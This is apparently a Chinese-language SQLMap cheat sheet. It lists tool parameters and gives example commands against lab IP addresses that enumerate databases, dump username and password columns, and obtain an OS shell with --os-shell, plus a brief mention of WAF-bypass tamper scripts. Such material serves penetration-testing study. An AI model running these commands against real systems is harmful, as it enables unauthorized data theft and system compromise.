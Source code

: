 # [SQLMap](https://github.com/sqlmapproject/sqlmap.git)

<!--last modify: 20230816-->

SQLMap 是一款专注于SQLi 的工具，SQLmap 基于Python 语言编写的命令行工具，集成在Kali 中

## 0x00 基本参数

| 参数                      | 含义                                    |
| ------------------------- | --------------------------------------- |
| -u                        | 检测注入点                              |
| --dbs                     | 列出所有的库名                          |
| --current-user            | 当前连接数据库用户的名字                |
| --current-db              | 当前数据库的名字                        |
| -D "cms"                  | 指定目标数据库为cms                     |
| --tables                  | 列出数据库中所有的表名                  |
| -T "cms_users"            | 指定目标表名为'cms_users'               |
| --columns                 | 列出所有的字段名                        |
| -C “username,password”    | 指定目标字段                            |
| --dump                    | 列出字段内容                            |
| -r                        | 从文件中读取HTTP 请求                   |
| --os-shell                | 在特定情况下，可以直接获得目标系统Shell |
| --level 3                 | 设置sqlmap 检测等级 3                   |
| --cookie="username=admin" | 携带Cookie 信息进行注入                 |
| -g                        | 利用google 搜索引擎自动搜索注入点       |
| --batch                   | 使用默认选项                            |
| --random-agent            | 使用随机User-Agent 信息                 |
| -v 3                      | 显示payload                             |
| --param-filter=Referer    | 指定注入参数                            |
| --tamper “space2comment”  | 使用tamper脚本处理注入payload           |
| --dbms=MYSQL              | 指定数据库为MYSQL                       |

## 0x01 基本命令

```cmd
注入点：http://10.10.10.6/cms/show.php?id=33
sqlmap -u "http://10.10.10.1/show.php?id=33"
sqlmap -u "http://10.10.10.1/show.php?id=33" --dbs
sqlmap -u "http://10.10.10.1/show.php?id=33" --current-db
sqlmap -u "http://10.10.10.1/show.php?id=33" -D "cms" --tables
sqlmap -u "http://10.10.10.1/show.php?id=33" -D "cms" -T "cms_users" --columns
sqlmap -u "http://10.10.10.1/show.php?id=33" -D "cms" -T "cms_users" -C "username,password" --dump

sqlmap -u "http://10.10.10.1/show.php?id=33" --cookie="PHPSESSID=iu99417npvhcpkkf835jk5ij34; security=low" -p id --dbs # GET 方法
sqlmap -u "http://10.10.10.1/show.php" --data="id=33" --cookie="PHPSESSID=iu99417npvhcpkkf835jk5ij34; security=low" -p id --dbs # POST 方法

```

### 0x01x000 POST 注入

- 受到secure_file_priv 选项的限制；

- 目标系统Web 根目录的绝对路径；

  ```cmd
  sqlmap -r /tmp/login.post
  ```

- 直接 getshell

  ```cmd
  sqlmap -u "http://192.168.16.119/show.php?id=33" --os-shell
  ```

## 0x02 SQLMap 自动绕狗

将 SQLMap 源码放到 python 根目录下的 temper (绕狗脚本)
